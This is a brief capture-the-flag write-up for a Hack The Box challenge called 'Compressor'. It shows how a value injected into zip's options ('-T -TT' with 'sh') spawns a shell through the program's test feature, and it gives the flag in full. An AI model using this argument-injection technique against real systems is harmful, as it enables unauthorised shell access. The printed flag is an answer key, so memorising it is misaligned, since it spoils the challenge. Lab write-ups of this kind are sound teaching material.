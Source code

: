 > Ramona's obsession with modifications and the addition of artifacts to her body has slowed her down and made her fail and almost get killed in many missions.
> For this reason, she decided to hack a tiny robot under Golden Fang's ownership called "Compressor",
> which can reduce and increase the volume of any object to minimize/maximize it according to the needs of the mission.
> With this item, she will be able to carry any spare part she needs without adding extra weight to her back, making her fast.
> Can you help her take it and hack it?

> Author: **[w3th4nds][author-profile]**

## Zip it down

```
Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Compress artifact (zip <name>.zip <name> <options>)
4. Change directory  (cd <dirname>)
5. Clean directory   (rm -rf ./*)
6. Exit
```

According to [GTFOBins][gtfobins], zip has a test option where a custom command can be provided:

```shell
Insert <name>.zip: 1
Insert <name>: 1
Insert <options>: -T -TT 'sh #'
  # adding: 1 (stored 0%)
id
# uid=1000(ctf) gid=1000(ctf)
```

Then, the flad is located 2 directories up:

> `HTB{z1pp1ti_z0pp1t1_GTFO_0f_my_pr0p3rty}`

[author-profile]: https://app.hackthebox.com/users/70668
